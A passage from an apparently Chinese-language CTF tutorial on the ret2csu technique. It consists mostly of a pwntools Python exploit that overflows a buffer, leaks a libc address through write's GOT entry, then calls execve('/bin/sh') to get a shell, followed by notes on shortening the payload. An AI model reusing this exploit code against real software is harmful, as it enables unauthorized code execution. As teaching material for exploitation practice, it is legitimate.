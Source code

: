 ```python
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

## 改进

用此处的通用gadgets，输入的字节长度较长，有的情况下不允许有这样长的payload。因此：

- 改进1 提前控制`rbx`和`rbp`

可以看到`rbx`和`rbp`在里面唯一的作用就是用来满足继续执行的条件，因此`rbx=0`，`rbp=1`可以事先设置好

- 改进2 多次利用

顾名思义，将这里的通用`gadgets`分成多次使用（可以用分成的很直观的那两段）。但两次触发之间，要保证程序不会修改`r12-r15`寄存器，因为在两段之间需要用到。

其实长`payload`和多个`payload`还是要看程序的情况，只可以长`payload`但只能利用一次程序也不是不可能。

